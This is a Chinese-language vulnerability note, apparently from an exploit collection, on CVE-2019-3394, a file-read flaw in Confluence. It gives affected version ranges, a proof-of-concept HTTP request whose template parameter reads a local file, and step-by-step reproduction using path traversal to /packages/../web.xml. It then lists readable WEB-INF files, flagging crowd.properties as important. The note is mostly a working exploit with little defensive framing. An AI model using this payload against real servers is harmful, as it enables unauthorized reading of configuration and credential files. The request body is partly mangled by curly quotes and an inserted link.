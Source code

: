 ```yaml
---
title: "（CVE-2019-3394）Confluence 文件读取漏洞"
id: zhfly2855
---
```


# （CVE-2019-3394）Confluence 文件读取漏洞

## 一、漏洞简介

> （CVE-2019-3394）Confluence 文件读取漏洞

## 二、影响范围

*   6.1.0 <= version < 6.6.16
*   6.7.0 <= version < 6.13.7
*   6.14.0 <= version < 6.15.8

## 三、复现过程

#### poc

```
POST /rest/tinymce/1/macro/preview  HTTP/1.1
Host: localhost:8090
Content-Length: 175
Accept: text/plain, */*; q=0.01 
Origin: http://localhost:8090
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36 
Content-Type: application/json; charset=UTF-8
Referer: http://localhost:8090/ 
Connection: close `{“contentId”:“1”,“macro”:{“name”:“widget”,“params”: {“url”:“[https://www.viddler.com/v/test",“width”:“1000”,“height”:“1000”,"_templat](https://www.viddler.com/v/test%22,%22width%22:%221000%22,%22height%22:%221000%22,%22_templat) e”:“file:///C:/Windows/win.ini”},“body”:""}}` 
```

#### 触发条件

1.  一个有效的登录账号
2.  该账号具有在空间「添加页面」的权限

#### 复现步骤

1.创建一个空白页

![image](../img/7dec71d3ebc5cc1d83a404a471ffb758.png)

2.插入一张网络图片

![image](../img/3a53e4164bec2ba73b472b1ba08963ab.png)

![image](../img/e701ec80ee32ecca75bca5c846ed7877.png)

> 插入url改为你需要查看的文件，例如 /packages/../web.xml

3.点击发布，抓取报文

4.删除多余url前缀,只留下 `/packages/../web.xml` 并放开报文

![image](../img/26d1dde19ee727d0da357868dd41fdd3.png)

5.查看页面源码确认修改成功

![image](../img/02fa5e59e27458332f59cf591e6aeeb6.png)

6.导出word，并抓包查看

![image](../img/ce79e7a00cbb9860b906cbc0f43ccdd9.png)

![image](../img/f5a083edf54a79b3b71b37b0365a643e.png)

#### 路径说明

由于 `catalina.jar`中的 `org.apache.catalina.webresources.StandardRoot.class`的 getResource方法的 `validate`存在过滤和限制，所以可遍历路径均在 `/WEB-INF`下

可读取的文件大致如下

```
#WEB-INF下
decorators.xml
glue-config.xml
server-config.wsdd
sitemesh.xml
urlrewrite.xml
web.xml
#/WEB-INF/classes下
confluence-filtered-frames.properties
confluence-init.properties
crowd.properties(较为重要)
hash-registry.properties
lgplTemplate.soy
log4j-diagnostic.properties
log4j.properties
logging.properties
mime.types
osuser.xml
seraph-config.xml
seraph-paths.xml
velocity_implicit.vm
velocity.properties 
```